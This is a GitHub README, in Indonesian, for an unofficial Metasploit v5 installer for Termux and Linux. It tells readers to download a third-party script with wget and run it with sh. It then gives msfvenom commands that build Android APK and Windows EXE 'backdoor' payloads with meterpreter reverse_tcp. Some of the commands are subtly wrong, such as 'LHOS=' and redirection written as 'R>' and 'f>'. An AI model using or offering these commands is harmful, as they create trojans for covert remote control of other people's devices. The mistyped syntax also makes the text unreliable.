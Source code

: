 ## Metasploit-Framework-v5
Metasploit Versi lima kini sudah hadir dengan cara 
Installasi lebih mudah dengan sendirinya. System yang 
Setiap hari di update. Selain itu sekarang juga 
Sudah berkembang Metasploit Framework Sudah di Versi 5
Dari yang sebelumnya di versi 4.1.1
<br>
![alt text](https://github.com/INDOnimous/Metasploit-Framework-v5/blob/master/ss.png)
<br>
## Cara install Termux And Linux 

```fish
wget https://raw.githubusercontent.com/INDOnimous/Metasploit-Framework-v5/master/INDOsploit-V5.sh
sh INDOsploit-V5.sh
msfconsole 
```
### INDOnimous Homeland Scurity
•Untuk menjalankan Terminal Ketik ```msfconsole ```<br>
•Untuk membuat payload ```msfvenom ```<br>

### Cara membuat Payload apk Backdoor 
• Android 
``` fish
msfvenom -p android/meterpreter/reverse_tcp LHOS=(your IP/sah) LPORT=4444 R> /sdcard/INDOnimous.apk
```
• Windows
``` fish
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(your IP/sah) LPORT=4444 f> /desktop/INDOnimous.exe
```



